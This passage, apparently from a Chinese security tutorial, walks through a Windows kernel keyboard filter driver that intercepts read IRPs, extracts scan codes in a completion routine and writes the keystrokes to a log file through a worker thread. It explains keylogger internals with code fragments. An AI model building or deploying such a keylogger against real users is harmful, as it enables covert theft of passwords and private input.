

`IoCreateDevice()` 函数的第一个参数是驱动对象指针（来自 `DriverEntry` 的第一个参数）；第二个参数表示设备扩展大小；第三个参数表示设备对象名称（`NULL` 表示无名对象）；第四个参数表示设备类型（如 `FILE_DEVICE_KEYBOARD`）；第五个参数为设备附加属性；第六个参数表示是否为独占设备。

如果第六个参数为 `TRUE`，则在创建设备对象属性中加入 `OBJ_EXCLUSIVE`。第七个参数是输出参数，返回创建的设备对象指针，后续操作通过该指针完成。

在将新建设备对象加入设备堆栈前，需要保证属性与堆栈一致。可通过 Device Tree 工具查看设备堆栈属性；键盘驱动设备对象名如 `KeyboardClass0`，右侧“Interpreted Device Flags”反映整个设备堆栈属性。



```cpp
pKeyboardDeviceObject->Flags = pKeyboardDeviceObject->Flags | (DO_BUFFERED_IO | DO_POWER_PAGABLE);
```

`pKeyboardDeviceObject` 是 `IoCreateDevice()` 创建设备对象指针，通过成员变量 `Flags` 设置设备属性。新建设备对象默认带有 `DO_DEVICE_INITIALIZING` 属性，在驱动完成初始化前会阻止 I/O 请求通过名称打开设备，因此在挂接到设备栈前需要清除该属性。

```cpp
pKeyboardDeviceObject->Flags = pKeyboardDeviceObject->Flags & ~DO_DEVICE_INITIALIZING;
```

接下来通过设备对象指针获取设备扩展指针，设备扩展在挂接设备对象时使用。

```cpp
PDEVICE_EXTENSION pKeyboardDeviceExtension = (PDEVICE_EXTENSION)pKeyboardDeviceObject->DeviceExtension;
```

接下来调用 `IoAttachDevice()` 函数将创建的设备对象挂载到设备堆栈中。在调用 `IoCreateDevice()` 函数之前，需要将键盘设备的符号名转化成 `UNICODE` 字符串。

```cpp
CCHAR ntNameBuffer[64] = "\\Device\\KeyboardClass0";
STRING ntNameString;
UNICODE_STRING uKeyboardDeviceName;
RtlInitAnsiString(&ntNameString, ntNameBuffer);
RtlAnsiStringToUnicodeString(&uKeyboardDeviceName, &ntNameString, TRUE);
```

设备名称用 `UNICODE` 字符串表示，并且字符串的格式必须是“\\Device\\[设备名]”。因此代码中“\\Device\\KeyboardClass0”表示键盘的名称。`RtlInitAnsiString()` 函数是内核模式下的函数，该函数的作用是对指定的 ANSI 字符串进行初始化，也就是对字符串进行赋值。`RtlInitAnsiString()` 函数的第一个参数表示要初始化的 `ANSI_STRING` 字符串的指针，第二个参数表示对字符串初始化（赋值）的内容。`RtlAnsiStringToUnicodeString()` 函数的作用是将 ANSI 字符串转换成 `UNICODE` 字符串。该函数的第一个参数表示转换后的 `UNICODE` 字符串的指针，第二个参数表示需要被转换的 ANSI 字符串的指针，第三个参数表示是否需要为被转换的字符串进行内存分配。如果该参数为 `TRUE`，表示需要分配内存，则需要调用 `RtlFreeUnicodeString()` 函数来释放分配的内存。以上为 `HookKeyboard()` 函数的代码。该函数的作用是创建一个设备对象，并将该设备对象挂载到键盘设备堆栈上。

##### IRP_MJ_READ 的派遣函数

之前我们提到，IRP 用来处理 Windows I/O 请求：当系统等待键盘输入时，会产生一个 `IRP_MJ_READ` 类型的 IRP。如果在驱动程序中为 `IRP_MJ_READ` 分配了派遣函数，则当 IRP 经过该驱动程序时，指定的派遣函数将被调用，如图 7 所示。在本文涉及的驱动程序中，在入口函数 `DriverEntry()` 中为 `IRP_MJ_READ` 分配了派遣函数。也就是说，当接收到类型为 `IRP_MJ_READ` 的 IRP 后，驱动程序会调用 `DispatchRead()` 函数。

```cpp
pDriverObject->MajorFunction[IRP_MJ_READ] = DispatchRead;
```


当系统向键盘驱动发送读取数据（等待键盘输入）的 IRP 时，新创建的驱动就会截获这个 IRP，并对该 IRP 进行相应处理。大家都清楚，对于键盘监听功能的实现是截获用户按下键盘的信息，而当 IRP 由键盘驱动返回系统时，IRP 中才会包含用户的按键信息。当 IRP 从系统向键盘驱动发送时，IRP 中是不包含按键信息的。那么，驱动为什么要截获这个“空”的 IRP 呢？之前我们也提到，键盘监听驱动程序主要是对从键盘设备向上返回系统的 IRP 进行截获，但是我们无法确定“上行”的 IRP 何时经过本程序。因此，在“下行”IRP 经过本程序时（可通过 `IRP_MJ_READ` 来确定），在 `IRP_MJ_READ` 的派遣函数 `DispatchRead()` 中注册一个完成例程。当底层的键盘驱动将按键信息填充到 IRP 中之后，这个完成例程立刻被调用，完成对按键信息的截获。`DispatchRead()` 函数在 `KbdHook.cpp` 执行文件中定义。前面我们已经提到，IRP 中的每个 `IO_STACK_LOCATION` 结构都对应一个设备堆栈中的设备对象，IRP 每穿越一次设备对象，就会用 `IO_STACK_LOCATION` 记录下本次操作的某些属性。图 8 中显示了驱动对象、设备对象以及 IRP 中 `IO_STACK_LOCATION` 结构的关系（实际上上层设备对象对应 `IO_STACK_LOCATION1`，下层设备对象对应 `IO_STACK_LOCATION2`）。


在将键盘监听驱动所对应的设备对象挂载到设备堆栈后，由于 IRP 中没有为新的设备对象准备 `IO_STACK_LOCATION` 结构，因此如果不进行处理，设备对象与 `IO_STACK_LOCATION` 结构的对应关系会被破坏，如图 9 所示。因此，在 `IRP_MJ_READ` 的派遣函数 `DispatchRead()` 中，首先修正设备对象与 `IO_STACK_LOCATION` 结构的对应关系。

```cpp
PIO_STACK_LOCATION currentIrpStack =
    IoGetCurrentIrpStackLocation(pIrp);
PIO_STACK_LOCATION nextIrpStack =
    IoGetNextIrpStackLocation(pIrp);
*nextIrpStack = *currentIrpStack;
```


其中，`PIO_STACK_LOCATION` 是 `IO_STACK_LOCATION` 结构的指针。`IoGetCurrentIrpStackLocation()` 获取当前驱动程序创建设备对象所对应的 IRP 中 `IO_STACK_LOCATION` 结构的指针；`IoGetNextIrpStackLocation()` 获取当前驱动程序的下一级驱动程序的设备对象所对应的 `IO_STACK_LOCATION` 结构的指针。最后一行代码将下一级驱动对应的 `IO_STACK_LOCATION` 内容设置为本层设备对象对应的内容，如图 10 所示，通过以上代码完成设备对象与 `IO_STACK_LOCATION` 结构对应关系的修正。

在修正了设备对象与 `IO_STACK_LOCATION` 结构的对应关系之后，在 `IRP_MJ_READ` 的派遣函数 `DispatchRead()` 中，接下来完成的动作就是对完成例程的注册。

```cpp
IoSetCompletionRoutine(pIrp, OnReadCompletion,
                       pDeviceObject, TRUE, TRUE, TRUE);
```


注册完成例程的目的是，当指定的 IRP 被底层驱动完成后，该完成例程能够马上运行。`IoSetCompletionRoutine()` 宏的第一个参数指定 IRP 指针（`pIrp`，为 `DispatchRead()` 的第二个参数）；第二个参数是完成例程函数名 `OnReadCompletion()`；第三个参数表示完成例程的设备上下文（`pDeviceObject`，为 `DispatchRead()` 的第一个参数，类型为 `PDEVICE_OBJECT`）。底层驱动对 IRP 的完成包括三种情况：成功、错误和取消；第 4～6 个参数分别指定这三种情况下完成例程是否可被调用。

从上面的分析可知，在派遣函数 `DispatchRead()` 中注册完成例程，相当于对 IRP 发送了一个读取请求。当设备驱动将按键信息保存在 IRP 中后，调用注册的完成例程完成读取请求。因此，声明一个整型变量 `numPendingIrps` 作为 IRP 读取请求的数量；只有该变量值为 0 时，才能对驱动进行卸载。派遣函数 `DispatchRead()` 每运行一次，对 IRP 的读取请求数量增加一次。

```cpp
numPendingIrps++;
```

变量 `numPendingIrps` 在 `Klog.cpp` 执行文件中声明：

```cpp
int numPendingIrps = 0;
```

在 `KbdHook.cpp` 执行文件中，使用 `extern` 关键字对 `numPendingIrps` 变量进行声明。

```cpp
extern int numPendingIrps;
```

在派遣函数 `DispatchRead()` 的最后，调用 `IoCallDriver()` 函数将 IRP 中 `IO_STACK_LOCATION` 结构的指针向下移动一位，也就是将指定的 IRP 转发给下层驱动。

```cpp
return IoCallDriver(((PDEVICE_EXTENSION)pDeviceObject->DeviceExtension)->pKeyboardDevice, pIrp);
```

`IoCallDriver()` 函数的第一个参数表示下层设备对象的指针，该对象由设备扩展结构 `DEVICE_EXTENSION` 的成员变量 `pKeyboardDevice` 获得。第二个参数表示指定 IRP 的指针。`IoCallDriver()` 的返回值作为整个派遣函数 `DispatchRead()` 的返回值使用。

##### 完成例程

接下来我们来看一下在派遣函数 `DispatchRead()` 中注册的完成例程函数 `OnReadCompletion()` 的具体编写。`OnReadCompletion()` 函数是在 `KbdHook.cpp` 执行文件中定义的。

在完成例程函数 `OnReadCompletion()` 中，首先获取本驱动程序设备扩展。

```cpp
PDEVICE_EXTENSION pKeyboardDeviceExtension = (PDEVICE_EXTENSION)pDeviceObject->DeviceExtension;
```

其中，`pDeviceObject` 表示设备对象的指针，是 `OnReadCompletion()` 函数的第一个参数。接下来通过对 IRP 的状态来判断底层键盘驱动是否正确读取了按键信息。

```cpp
if (pIrp->IoStatus.Status == STATUS_SUCCESS) {
    ...
}
```

其中，`pIrp` 是 IRP 结构的指针，也是 `OnReadCompletion()` 函数的第二个参数。通过 IRP 结构的指针访问该结构成员变量 `IoStatus`，其类型为 `IO_STATUS_BLOCK`。

```cpp
typedef struct _IO_STATUS_BLOCK {
    union {
        LONG Status;
        PVOID Pointer;
    };
    ULONG Information;
} IO_STATUS_BLOCK, *PIO_STATUS_BLOCK;
```

其中成员变量 `Status` 保存 I/O 请求执行的完成情况。对于 `IRP_MJ_READ` 类型的 IRP，该变量表示键盘驱动是否正确读取按键信息；成功时 `Status` 的值是 `STATUS_SUCCESS`。

在键盘驱动成功获取按键信息之后，接下来的动作是从这个 IRP 中获取按键信息。按键信息以 `KEYBOARD_INPUT_DATA` 结构保存，定义如下。

```cpp
typedef struct _KEYBOARD_INPUT_DATA {
    USHORT UnitId;
    USHORT MakeCode;
    USHORT Flags;
    USHORT Reserved;
    ULONG ExtraInformation;
} KEYBOARD_INPUT_DATA, *PKEYBOARD_INPUT_DATA;

PKEYBOARD_INPUT_DATA keys = (PKEYBOARD_INPUT_DATA)pIrp->AssociatedIrp.SystemBuffer;
```

其中，通过 IRP 结构指针 `pIrp` 调用的成员变量 `AssociatedIrp` 是一个联合（union）。

```cpp
union {
    struct _IRP *MasterIrp;
    LONG IrpCount;
    PVOID SystemBuffer;
} AssociatedIrp;
```

其中 `SystemBuffer` 是缓冲区指针，该缓冲区中包含的就是按键信息。

键信息的缓冲区指针后，接下来判断该缓冲区中包含按键信息的数量。

```c
int numKeys = Irp->IoStatus.Information /
    sizeof(KEYBOARD_INPUT_DATA);
```

其中，IoStatus 的成员变量 Information 表示包含按键信息的缓冲区大小。之后利用 `for` 语句对所有的按键信息进行操作。

```c
for (int i = 0; i < numKeys; i++) {
    // 处理每个按键信息
}
```

在 `for` 语句中，获取所有的按键信息并将这些信息写入到指定的文件中，完成键盘监听。

##### 互锁与信号灯

在完成例程中，我们将截获到的按键信息保存在双向链表中。为了保证完成例程的同步，即在同一时刻只有一个完成例程向双向链表中写入按键信息，本文涉及的键盘监控驱动程序中，使用互锁（interlocked）操作来完成例程的同步。在使用互锁同步前，首先分配内存空间用来保存这些按键信息。

```c
KEY_DATA *kData = (KEY_DATA*)
    ExAllocatePool(NonPagedPool, sizeof(KEY_DATA));
```

其中，`ExAllocatePool()` 函数的作用是在堆（Heap）中申请内存。该函数的第一个参数表示分配内存的类型，`NonPagedPool` 表示分配非分页内存；第二个参数表示所分配内存的大小。`ExAllocatePool()` 函数的返回值是所分配内存的地址。`KEY_DATA` 是驱动程序自定义的结构，在 `Klog.h` 中定义。

```c
struct KEY_DATA {
    LIST_ENTRY ListEntry;
    char KeyData;
    char KeyFlags;
};
```

接下来通过从 IRP 中获取到的按键信息，也就是 `KEYBOARD_INPUT_DATA` 结构的指针 `keys`，将 `KEY_DATA` 结构的成员变量进行设置：

```c
kData->KeyData = (char)keys[i].MakeCode;
kData->KeyFlags = (char)keys[i].Flags;
```

其中，变量 `MakeCode` 表示按键信息，`Flags` 表示按键标志，以上两个变量的内容分别保存在 `KEY_DATA` 结构的成员变量 `KeyData` 和 `KeyFlags` 中。

之后，将 `kData` 所指向的缓冲区内容加入到互锁的双向链表中。互锁操作可以理解成使用自带自旋锁来实现同步的一种操作。例如本程序使用的互锁双向链表操作函数，可以理解成这个函数已经内置了自旋锁，而不需要在调用这个双向链表操作函数之前再调用自旋锁函数进行同步处理了。因此，在使用互锁的双向链表函数前，需要在驱动程序的入口函数 `DriverEntry()` 中对自旋锁和链表头进行初始化处理。在 `DriverEntry()` 函数中，有如下代码：

```c
PDEVICE_EXTENSION pKeyboardDeviceExtension =
    (PDEVICE_EXTENSION)pDriverObject->DeviceObject->DeviceExtension;
InitializeListHead(&pKeyboardDeviceExtension->QueueListHead);
KeInitializeSpinLock(&pKeyboardDeviceExtension->lockQueue);
```

首先通过驱动对象获取该驱动对象所对应的设备对象设备扩展的指针。之前我们已经提到，设备扩展保存了设备的一些“特殊”信息，每个设备的设备扩展不同，需要由驱动程序自己定义设备扩展。本驱动程序的设备扩展对应的 `DEVICE_EXTENSION` 结构在 `Klog.h` 头文件中定义。从 `DEVICE_EXTENSION` 结构的定义中可知，成员变量 `lockQueue` 表示自旋锁，`QueueListHead` 表示链表头。

自旋锁是一种同步机制，它能保证某个共享资源只能被一个线程所拥有。初始化自旋锁时，自旋锁处于解锁状态，它可以被程序“获取”。被“获取”之后的自旋锁状态变为锁住，此时再有程序申请“获取”该自旋锁时，则该程序只能处于“自旋”状态。所谓“自旋”状态，就是程序不停询问是否可以“获取”自旋锁。

可以将其理解成一个厕所门锁：当两个人都不用厕所的时候，厕所处于“解锁”状态；当 A 使用厕所时门关闭，厕所处于“锁住”状态；如果这个时候 B 也想使用厕所，很明显他没有办法使用，只能在厕所外面焦急等待，也就是处于“自旋”状态。当 A 用完厕所之后，厕所状态又变为“解锁”，那么 B 就可以使用厕所了。以上过程中，厕所同时只能被一个人使用，也就相当于我们之前提到的使用自旋锁可以保证共享资源只能被一个线程所拥有。

链表可以记录整型、浮点型、字符型或者程序员自定义的数据结构。链表通过指针将这些数据结构组成一个“链”，链中的每个元素对应着记录的数据。对于单向链表，每个元素中有一个 `Next` 指针指向下一个元素。对于双向链表，每个元素有两个指针，一个指向前一个元素，一个指向下一个元素。使用 `LIST_ENTRY` 结构来表示双向链表，`LIST_ENTRY` 结构定义如下所示：

```c
typedef struct _LIST_ENTRY {
    struct _LIST_ENTRY *Flink;
    struct _LIST_ENTRY *Blink;
} LIST_ENTRY, *PLIST_ENTRY, *RESTRICTED_POINTER PRLIST_ENTRY;
```

其中，`Flink` 是指向下一个元素的指针，`Blink` 是指向前一个元素的指针。

`InitializeListHead()` 函数和 `KeInitializeSpinLock()` 函数的作用是对自旋锁和双向链表进行初始化。回到 `KbdHook.cpp` 执行文件中的完成例程函数 `OnReadCompletion()` 中，在该函数里调用 `ExInterlockedInsertTailList()` 函数将得到的按键信息添加到双向链表中。

```c
ExInterlockedInsertTailList(&pKeyboardDeviceExtension->QueueListHead,
    &kData->ListEntry,
    &pKeyboardDeviceExtension->lockQueue);
```

`ExInterlockedInsertTailList()` 函数将按键信息插入到双向链表尾部，并且使用自旋锁来保证在插入链表的过程中，没有其他线程访问该链表。该函数的第一个参数指定要插入的双向链表；第二个参数表示要插入到链表尾部的内容；第三个参数指定函数使用的自旋锁。

但需要注意的是，完成例程运行在 `DISPATCH_LEVEL` 中断级别上，而文件写操作是在 `PASSIVE_LEVEL` 中断级别中运行。`DISPATCH_LEVEL` 级别高于 `PASSIVE_LEVEL`，因此在完成例程中无法进行文件写入。解决方法是创建运行在 `PASSIVE_LEVEL` 级别的工作者线程来完成文件写入。

在完成例程 `OnReadCompletion()` 中将获取的键盘信息加入到一个双向链表中，在工作者线程中对这个双向链表进行访问。为了实现完成例程与工作者线程的同步，也就是说要保证在完成例程将按键信息加入列表时，没有工作者线程来读取这个链表，驱动程序使用了信号灯。

信号灯也是一种常用同步对象，分为激发和未激发两种状态。信号灯内部有个计数器，该计数器不为零时，信号灯处于激发状态；计数器为零时，信号灯处于未激发状态。驱动程序通过判断信号灯状态来实现线程间同步。

在本驱动程序中，首先在入口函数 `DriverEntry()` 中调用 `KeInitializeSemaphore()` 函数实现信号灯初始化。

```c
KeInitializeSemaphore(&pKeyboardDeviceExtension->semQueue, 0, MAXLONG);
```

其中，`KeInitializeSemaphore()` 函数的第一个参数表示指定信号灯对象的指针，该指针通过设备扩展指针 `pKeyboardDeviceExtension` 获得。在 `DEVICE_EXTENSION` 结构定义中可以看到，成员变量 `semQueue` 的类型是 `KSEMAPHORE`。`KeInitializeSemaphore()` 函数的第二个参数表示初始化时信号灯计数，`0` 表示此时信号灯处于未激活状态；第三个参数表示信号灯计数上限，`MAXLONG` 定义如下：

```c
#define MAXLONG 0x7fffffff
```

回到 `KbdHook.cpp` 执行文件中的完成例程函数 `OnReadCompletion()` 中。在调用 `ExInterlockedInsertTailList()` 将按键信息插入双向链表后，完成例程调用 `KeReleaseSemaphore()` 释放信号灯。释放信号灯会增加信号灯计数。之前初始化信号灯时计数设置为 0，在调用后即可唤醒等待线程。调用 `KeReleaseSemaphore()` 后，信号灯计数变为 1，此时信号灯处于激活状态。

```c
KeReleaseSemaphore(&pKeyboardDeviceExtension->semQueue, 0, 1, FALSE);
```

`KeReleaseSemaphore()` 函数的第一个参数表示要释放的信号灯指针；第二个参数表示被唤醒线程的调度优先级提高程度，`0` 表示不需要提高优先级；第三个参数指定信号灯增加的计数量；第四个参数指定在 `KeReleaseSemaphore()` 之后是否马上调用等待函数，`FALSE` 表示不需要马上调用等待函数。

从以上分析可知，当完成例程向双向链表中写入按键信息时，信号灯处于未激活状态；完成写入后，信号灯变为激活状态。

前面提到的等待函数是 `KeWaitXX` 系列函数。如果信号灯处于激活状态，则该函数将信号灯计数减 1，程序继续向下进行；如果信号灯处于未激活状态，则等待函数需要等待信号灯变为激活状态，程序在等待过程中不能向下进行。等待函数在工作者线程 `ThreadKeyLogger()` 中调用。

```c
while (true)
{
    KeWaitForSingleObject(&pKeyboardDeviceExtension->semQueue,
        Executive, KernelMode, FALSE, NULL);
}
```

`KeWaitForSingleObject()` 函数的第一个参数表示指定信号灯指针；第二个参数指定等待原因，对于驱动程序该参数需要设置为 `Executive`；第三个参数指定是在内核模式还是用户模式下等待，`KernelMode` 表示在内核模式下等待；第四个参数指定等待结束后是否需要通知，`FALSE` 表示等待不需通知；第五个参数指定等待时间。

从以上分析可知，当完成例程将按键信息写入双向链表时，信号灯处于未激活状态，此时在工作者线程中，`KeWaitForSingleObject()` 处于等待状态，工作者线程不能读取双向链表内容。当完成例程完成写入后，信号灯变为激活状态，此时 `KeWaitForSingleObject()` 取消等待，程序向下进行，完成对双向链表的读取。以上就是使用信号灯使完成例程与工作者线程之间实现同步的原理。

接下来对 IRP 中成员变量 `PendingReturned` 进行判断。如果该变量值为 `TRUE`，说明从下层驱动返回的 IRP 是异步的，也就是说此时 IRP 中不一定包含按键信息。对于这种情况，驱动程序完成例程需要调用 `IoMarkIrpPending()` 对截获到的 IRP 成员变量 `Control` 进行设置。

```c
if (pIrp->PendingReturned)
    IoMarkIrpPending(pIrp);
```

其中，`IoMarkIrpPending()` 宏定义如下：

```c
#define IoMarkIrpPending(_Irp) \
    (IoGetCurrentIrpStackLocation(_Irp)->Control |= SL_PENDING_RETURNED)
```

也就是说，如果下层 IRP 是异步返回的，则在键盘监听驱动程序的完成例程中，在截获到的 IRP 的 `Control` 位中加入 `SL_PENDING_RETURNED`，通知系统先将该 IRP 挂起（pending），等待下层驱动完成该 IRP。

通过以上代码，键盘监听驱动程序就完成了对截获到一个读取 IRP 的处理。因此，表示读取 IRP 数量的变量 `numPendingIrps` 要减 1。

```c
numPendingIrps--;
```

最后返回 IRP 中表示操作状态的信息。

```c
return pIrp->IoStatus.Status;
```


从图 11 中我们可以归纳出键盘监听驱动程序的工作流程。在驱动程序中，将 `IRP_MJ_READ` 的派遣函数设置为 `DispatchRead()`，当“下行”的 IRP 中包含 `IRP_MJ_READ` 时，驱动程序调用 `DispatchRead()` 对完成例程 `OnReadCompletion()` 进行注册。此时 IRP 中的 `CompletionRoutine` 域会指向该完成例程。当 IRP 在底层键盘驱动中被处理之后，键盘信息保存在 IRP 中，该 IRP 变为“上行”。在沿设备堆栈“上行”的过程中，如果某层设备对应的 `CompletionRoutine` 域非空，则调用该域指向的函数，也就是完成例程。在键盘监听驱动程序的完成例程 `OnReadCompletion()` 中读取按键信息，并将该信息保存在双向链表中。

##### 工作者线程

回到驱动程序主函数 `DriverEntry()` 中，程序调用自定义函数 `InitThreadKeyLogger()` 创建工作者线程，将截获的按键信息写入指定文件中。

```c
InitThreadKeyLogger(pDriverObject);
```

`InitThreadKeyLogger()` 函数在 `KbdLog.cpp` 执行文件中定义。在 `InitThreadKeyLogger()` 函数中，首先获取设备扩展指针。

```c
PDEVICE_EXTENSION pKeyboardDeviceExtension =
    (PDEVICE_EXTENSION)pDriverObject->DeviceObject->DeviceExtension;
```

其中，`pDriverObject` 是 `InitThreadKeyLogger()` 的参数，即驱动对象指针。以上代码通过驱动对象获取对应设备扩展的指针。

接下来在设备扩展中设置工作者线程状态。在自定义设备扩展结构 `DEVICE_EXTENSION` 中，成员变量 `bThreadTerminate` 表示线程是否结束：该变量为 `TRUE` 表示线程已结束；为 `FALSE` 表示线程未结束，也就是线程处于运行状态。在 `InitThreadKeyLogger()` 中我们要创建工作者线程，因此需要将 `bThreadTerminate` 设置为 `FALSE`。

```c
pKeyboardDeviceExtension->bThreadTerminate = FALSE;
```

然后调用 `PsCreateSystemThread()` 函数创建工作者线程。

```c
HANDLE hThread;
NTSTATUS status =
    PsCreateSystemThread(&hThread, (ACCESS_MASK)0,
        NULL, (HANDLE)0, NULL, ThreadKeyLogger,
        pKeyboardDeviceExtension);
```

`PsCreateSystemThread()` 函数创建一个在内核模式下执行的系统线程，并返回线程句柄。其参数含义如下：

- 第一个参数：创建的新线程句柄指针；
- 第二个参数：线程权限类型，`(ACCESS_MASK)0` 表示不指定额外权限；
- 第三个参数：对象属性，驱动创建线程时应设为 `NULL`；
- 第四个参数：新线程所属进程句柄，驱动创建线程时应设为 `NULL`；
- 第五个参数：保存新线程标识符的结构，驱动创建线程时应设为 `NULL`；
- 第六个参数：新线程入口点，即线程函数 `ThreadKeyLogger()`（定义于 `KbdLog.cpp`）；
- 第七个参数：传递给线程的参数，这里是设备扩展指针 `pKeyboardDeviceExtension`。

接下来将新创建线程对象的指针保存在设备扩展中。

```c
ObReferenceObjectByHandle(hThread,
    THREAD_ALL_ACCESS, NULL, KernelMode,
    (PVOID*)&pKeyboardDeviceExtension->pThreadObj,
    NULL);
```

`ObReferenceObjectByHandle()` 函数的作用是通过给定对象句柄获取对象指针。其参数含义如下：

- 第一个参数：对象的打开句柄，`hThread` 即前面创建的工作者线程句柄；
- 第二个参数：请求的对象访问权限类型，`THREAD_ALL_ACCESS` 表示全部权限；
- 第三个参数：对象类型指针，若访问模式是内核模式可设为 `NULL`；
- 第四个参数：访问模式，`KernelMode` 表示内核模式；
- 第五个参数：保存对象指针的变量，即设备扩展中的 `pThreadObj`（类型为 `PETHREAD`）；
- 第六个参数：保存句柄属性和授予访问权限，此处设为 `NULL`。

最后关闭创建的线程句柄。

接下来我们看一下工作者线程函数 `ThreadKeyLogger()` 的具体编写。函数 `ThreadKeyLogger()` 在 `KbdLog.cpp` 执行文件中定义。

在 `ThreadKeyLogger()` 函数中，首先根据函数参数获取设备扩展指针，并根据设备扩展指针得到设备对象指针。

```cpp
PDEVICE_EXTENSION pKeyboardDeviceExtension = (PDEVICE_EXTENSION)pContext;
PDEVICE_OBJECT pKeyboardDeviceObject = pKeyboardDeviceExtension->pKeyboardDevice;
```

接下来在 `while()` 无限循环中，首先调用 `KeWaitForSingleObject()` 函数等待信号灯状态变为激活。之前我们已经提到，当完成例程 `OnReadCompletion()` 将截获按键信息保存在双向链表后，信号灯状态才会变为激活。

```cpp
KeWaitForSingleObject(&pKeyboardDeviceExtension->semQueue, Executive, KernelMode, FALSE, NULL);
```

然后通过 `ExInterlockedRemoveHeadList()` 函数从双向链表头部取出按键信息，并在链表中删除该信息。以上过程通过互锁操作实现读取数据时的同步。

```cpp
pListEntry = ExInterlockedRemoveHeadList(&pKeyboardDeviceExtension->QueueListHead, &pKeyboardDeviceExtension->lockQueue);
```

其中，`ExInterlockedRemoveHeadList()` 函数的第一个参数指定双向链表头部，第二个参数指定同步时使用的自旋锁。得到的链表项指针保存在变量 `pListEntry` 中。变量 `pListEntry` 在 `while()` 无限循环语句外声明。

```cpp
PLIST_ENTRY pListEntry;
```

当卸载驱动时，需要结束这些工作者线程。但是运行在内核模式下的线程不能由外部结束，只能由自身内部结束。这就要使用之前提到的设备扩展成员变量 `bThreadTerminate`。如果该变量值为 `TRUE`，则在工作者线程内部调用 `PsTerminateSystemThread()` 函数结束自身。

```cpp
if (pKeyboardDeviceExtension->bThreadTerminate == TRUE)
{
    PsTerminateSystemThread(STATUS_SUCCESS);
}
```

之前我们已经提到，按键信息都包含在双向链表中。但是保存在双向链表中的按键信息不能直接访问，需要通过 `CONTAINING_RECORD` 宏获取该数据结构起始地址。

```cpp
kData = CONTAINING_RECORD(pListEntry, KEY_DATA, ListEntry);
```

该宏的第一个参数表示按键信息结构中某个成员地址，`pListEntry` 是按键信息结构中第一个成员地址；第二个参数是结构体类型，`KEY_DATA` 表示按键信息结构；第三个参数表示结构体中的成员。`kData` 包含了按键信息地址，该变量在 `while()` 循环外部声明。

```cpp
KEY_DATA* kData;
```

在此获取的按键信息是键盘扫描码信息，我们需要将键盘扫描码信息转化成真正的键盘按键信息。那么什么是键盘扫描码呢？键盘上的每一个键都有两个唯一数值作为标志，这两个数值分别表示某个按键被按下和被释放，这些数值在系统中被称为键盘扫描码。在本文涉及的驱动程序中，调用自定义函数 `ConvertScanCodeToKeyCode()` 将键盘扫描码转化成真正的键盘按键信息。

```cpp
ConvertScanCodeToKeyCode(pKeyboardDeviceExtension, kData, keys);
```

其中，第一个参数表示设备扩展指针，第二个参数表示要转换的键盘扫描码地址，第三个参数表示真正的键盘按键信息。`ConvertScanCodeToKeyCode()` 函数在 `ScanCode.cpp` 执行文件中定义，由于该函数与驱动关系不大，在此不做详细分析。

在将扫描码转化成真正的键盘按键信息后，就应该将该信息写入到指定文件中了。接下来需要在驱动程序入口函数 `DriverEntry()` 中创建指定文件。

```c
RtlAnsiStringToUnicodeString(&uFileName,
    &ntNameString, TRUE);
InitializeObjectAttributes(&objattrib, &uFileName,
    OBJ_CASE_INSENSITIVE, NULL, NULL);
Status = ZwCreateFile(&pKeyboardDeviceExtension->hLogFile,
    GENERIC_WRITE, &objattrib, &file_status, NULL,
    FILE_ATTRIBUTE_NORMAL, 0, FILE_OPEN_IF,
    FILE_SYNCHRONOUS_IO_NONALERT, NULL, 0);
```

其中，`RtlAnsiStringToUnicodeString()` 函数的作用是将类型为 ANSI 字符串的文件名 `ntNameString` 转换成 Unicode 字符串的文件名 `uFileName`。

